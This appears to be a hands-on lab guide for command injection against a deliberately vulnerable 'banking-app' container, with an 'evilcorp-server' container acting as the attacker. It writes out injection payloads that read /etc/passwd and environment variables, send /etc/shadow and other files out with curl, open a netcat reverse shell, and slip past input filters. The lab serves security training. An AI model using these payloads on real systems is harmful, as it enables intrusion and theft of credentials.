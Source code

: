 
# ============================================================================
# Command Injection
# ATTACK EXAMPLES & TESTING ENDPOINTS
# ============================================================================

## Environment Setup

Before starting, ensure you have:
- Banking-app container running
- Evilcorp-server container running
- Three terminal windows available

### Prepare for monitoring
1. On one terminal run `docker exec -it banking-app sh` This gives you terminal access to the banking-app server.
2. On another terminal run `docker exec -it evilcorp-server sh` This gives you terminal access to the evilcorp hacker server.

### The injection
1. Navigate to the export functionality (`http://127.0.0.1:5000/export`)

User input from the `filename` parameter is directly inserted into a shell command without sanitization.

**Test simple command execution:**
```
Filename: transactions; ls -la
```

**Read system files:**
```
Filename: transactions; cat /etc/passwd > /tmp/users.txt
```

**List environment variables:**
```
Filename: transactions; env > /tmp/environment.txt
```

**Verify file creation (Terminal 2):**
```bash
docker exec -it banking-app bash
cat  /tmp/users.txt
cat /tmp/environment.txt
```

### Data Exfiltration via HTTP

**Send system password file to malicious server:**
```
Filename: transactions; curl -X POST http://evilcorp-server:8888/ --data @/etc/passwd
```

**Send multiple files:**
```
Filename: transactions; tar -czf /tmp/sensitive.tar.gz /etc/passwd /etc/shadow /etc/hosts && curl -X POST http://evilcorp-server:8888/ --data-binary @/tmp/sensitive.tar.gz
```

**Check stolen data (Terminal 3):**
```bash
docker exec -it evilcorp-server sh
cd /app/stolen_data
ls -la
cat http_*.txt
```

### Reverse Shell Tests

**Set up listener on evilcorp-server (Terminal 3):**
```bash
docker exec -it evilcorp-server sh
nc -lvp 6666
```

**Establish reverse shell connection:**
```
Filename: transactions; nc -e /bin/sh evilcorp-server 6666
```

**Test interactive access (on evilcorp-server terminal):**
- `ls`
- `whoami`
- `pwd`
- `cat /etc/passwd`


### Bypassing Input Filters

**Using different command separators:**
```
transactions|whoami
transactions||whoami
transactions&&whoami
transactions`whoami`
transactions$(whoami)
```

**URL encoding:**
```
transactions%3Bwhoami
```

**Quote manipulation:**
```
transactions';'whoami
transactions";"whoami
```


